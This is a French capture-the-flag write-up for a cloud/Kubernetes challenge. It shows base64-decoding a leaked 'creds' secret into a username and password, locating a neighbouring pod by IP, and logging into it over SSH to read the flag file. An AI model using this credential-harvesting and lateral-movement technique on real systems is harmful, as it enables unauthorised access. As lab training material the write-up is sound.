

# Les nuages menaçants 2/3



Lors de la 1ère étape, on a exploité le secret `flag`.

Mais il y en avait un 2ème présent `creds`, dont le nom fait penser à credentials. Il est d'ailleurs constitué des données suivantes qui sont pour le moins évocatrices :

```json
"data": {
  "password": "bGVzX251YWdlcw==",
  "user": "cHJvdXN0"
}
```

Une fois décodées, on obtient un couple user/password :
```bash
# Décodage du user
root@start:~# base64 -d <<< cHJvdXN0 && echo
proust

# Décodage du password
root@start:~# base64 -d <<< bGVzX251YWdlcw== && echo
les_nuages
```

Ce couple doit servir à se connecter sur ? un autre pod ?

On regarde qu'elle est l'IP de notre pod `start` :

```bash
root@start:~# ip addr
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host
       valid_lft forever preferred_lft forever
2: eth0@if8: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1450 qdisc noqueue state UP group default
    link/ether 62:01:32:08:03:f8 brd ff:ff:ff:ff:ff:ff link-netnsid 0
    inet 10.42.0.14/24 brd 10.42.0.255 scope global eth0
       valid_lft forever preferred_lft forever
    inet6 fe80::6001:32ff:fe08:3f8/64 scope link
       valid_lft forever preferred_lft forever
```

Son IP est donc `10.42.0.14`.
Si un autre pod est déployé, l'IP de cet autre pod doit être proche.

Un `ssh` sur `10.42.0.15` ne donne rien.

Par contre, sur `10.42.0.13` cela fonctionne :

```bash
root@start:~# ssh 10.42.0.13
The authenticity of host '10.42.0.13 (10.42.0.13)' can't be established.
ED25519 key fingerprint is SHA256:Puhc03VYvi23tKCYCjAKQTo8J622KlTEwlwTxF+AoAQ.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes^C
```

Si on utilise les credentials obtenus précédemment, on arrive à se connecter :

```bash
root@start:~# ssh -l proust 10.42.0.13
The authenticity of host '10.42.0.13 (10.42.0.13)' can't be established.
ED25519 key fingerprint is SHA256:Puhc03VYvi23tKCYCjAKQTo8J622KlTEwlwTxF+AoAQ.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.42.0.13' (ED25519) to the list of known hosts.
proust@10.42.0.13's password:
Welcome to Ubuntu 22.04.2 LTS (GNU/Linux 4.15.0-209-generic aarch64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

$
```

On trouve le flag dans le fichier `/flag.txt` :

```bash
$ ls
$ pwd
/home/proust
$ cd /
$ ls
bin   dev  flag.txt  lib    mnt  proc  run   srv  tmp  var
boot  etc  home      media  opt  root  sbin  sys  usr
$ cat flag.txt
404CTF{A_la_Recherche_De_La_Racine}
```
